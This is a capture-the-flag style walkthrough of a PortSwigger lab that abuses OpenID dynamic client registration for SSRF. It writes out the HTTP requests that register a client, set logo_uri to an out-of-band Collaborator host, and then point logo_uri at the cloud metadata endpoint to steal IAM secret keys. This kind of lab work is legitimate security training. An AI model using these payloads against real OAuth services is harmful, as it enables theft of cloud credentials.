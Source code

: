 # SSRF via OpenID dynamic client registration

## Description

[This lab](https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration) allows client applications to dynamically register themselves with the `OAuth` service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the `OAuth` service, which exposes a potential vector for SSRF. 

## Reproduction and proof of concept

1. While proxying traffic through Burp, log in with `wiener:peter`. Browse to `https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/.well-known/openid-configuration` to access the configuration file. Notice that the client registration endpoint is located at `/reg`.

```text
https://oauth-0a6900b5048945d8c1ab1ffc02d8004e.oauth-server.net/.well-known/openid-configuration
```

![Oauth](/_static/images/oauth12.png)

2. In Burp Repeater, create a suitable `POST` request to register your own client application with the OAuth service. You must at least provide a `redirect_uris` array containing an arbitrary whitelist of callback URIs for your fake application. For example:

```text
POST /reg HTTP/1.1
Host: oauth-0a6900b5048945d8c1ab1ffc02d8004e.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ]
}
```

3. Send the request. 

![Oauth](/_static/images/oauth13.png)

You have now successfully registered your own client application without requiring any authentication. The response contains various metadata associated with your new client application, including a new `client_id`.

4. Using Burp, audit the OAuth flow and notice that the **Authorize** page, where the user consents to the requested permissions, displays the client application's logo. This is fetched from `/client/CLIENT-ID/logo`. We know from the OpenID specification that client applications can provide the URL for their logo using the `logo_uri` property during dynamic registration. Send the `GET /client/CLIENT-ID/logo` request to Burp Repeater.
5. From the Burp menu, open the Burp Collaborator client and click **Copy to clipboard** to copy a Collaborator URL. Leave the Collaborator dialog open for now.
6. In Repeater, go back to the `POST /reg` request that you created earlier. Add the `logo_uri` property and paste your Collaborator URL as its value. The final request should look something like this:

```text
POST /reg HTTP/1.1
Host: oauth-0a6900b5048945d8c1ab1ffc02d8004e.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri" : "https://ayc1v2jr1ayrplf516zakprhe8kz8pwe.oastify.com"
}
```

7. Send the request to register a new client application and copy the `client_id` from the response.

```text
"client_id":"RnZsZfMVpfPS3fvIwXoY6",
```

8. In Repeater, go to the `GET /client/CLIENT-ID/logo` request. Replace the `CLIENT-ID` in the path with the new one you just copied and send the request.

![Oauth](/_static/images/oauth14.png)

9. Go to the Burp Collaborator client dialog and check for any new interactions. 

![Oauth](/_static/images/oauth15.png)

There is an HTTP interaction attempting to fetch your non-existent logo. This confirms that you can successfully use the `logo_uri` property to elicit requests from the OAuth server.
10. Go back to the `POST /reg` request in Repeater and replace the current `logo_uri` value with the target URL:

```text
"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
```

11. Send this request and copy the new `client_id` from the response.

```text
"client_id":"lswpWbRUl4rUzN4GYG8js",
```

12. Go back to the `GET /client/CLIENT-ID/logo` request and replace the `client_id` with the new one you just copied. Send this request. Observe that the response contains the sensitive metadata for the OAuth provider's cloud environment, including the secret access key.

![Oauth](/_static/images/oauth16.png)

13. Use the **Submit solution** button to submit the access key and solve the lab.

![Oauth](/_static/images/oauth17.png)

## Exploitability

An attacker will need to log in; and then craft an SSRF attack to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the `OAuth` provider's cloud environment.

_Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server._
